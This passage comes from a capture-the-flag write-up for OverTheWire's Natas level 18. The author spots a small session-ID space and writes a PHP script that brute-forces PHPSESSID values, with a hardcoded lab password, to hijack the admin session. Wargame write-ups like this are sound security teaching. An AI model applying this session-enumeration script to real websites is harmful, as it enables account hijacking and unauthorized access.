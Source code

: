 ~~~~
</div> 
</body> 
</html> 
~~~~

Interesting. Looks like this one's all about sessions. Judging by a cursory glance at the code, 640 of them according to the `$maxid` variable. Also, it appears that one of these sessions has an "admin" attribute, that if set, gives us the credentials for the next challenge.

Haha, I love this comment:

`// 640 should be enough for everyone`

Enough for everyone, indeed... *everyone including the admin!*

Honestly, my gut reaction is to just try every one of the 640 session IDs one-by-one until it coughs up the credentials. I can see here that it says `You are an admin.` if it's the correct session ID, and `You are logged in as a regular user.` if it's not, so that's an easy pass/fail test. Yep... looks like we've got a brute-force attack to concoct! Let's write some PHP.

~~~~
<?php

function get($url, $i)
{
    $username = "natas18";
    $password = "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP";
    $string = base64_encode("$username:$password");

    $options = [
        'http' => [
            'header'  => "Content-Type: application/x-www-form-urlencoded\r\n"
                       . "authorization: Basic $string\r\n"
                       . "cookie: PHPSESSID=$i",
            'method'  => 'GET'
        ]
    ];

    $context  = stream_context_create($options);
    $raw_response = file_get_contents($url, false, $context);
    return $raw_response;
}

for ($i = 0; $i < 641; $i++)
{
    echo "Checking $i\r\n";
    $response = get("http://natas18.natas.labs.overthewire.org", $i);
    if (strpos($response, "You are an admin."))
    {
        $password = substr($response, strpos($response, "Password: ") + 10, 32);
        exit("Got it! Session ID $i is Admin.\r\nNatas19 Password: $password");
    }
    elseif (!strpos($response, "You are logged in as a regular user."))
    {
        var_dump($response);
    }
}
~~~~
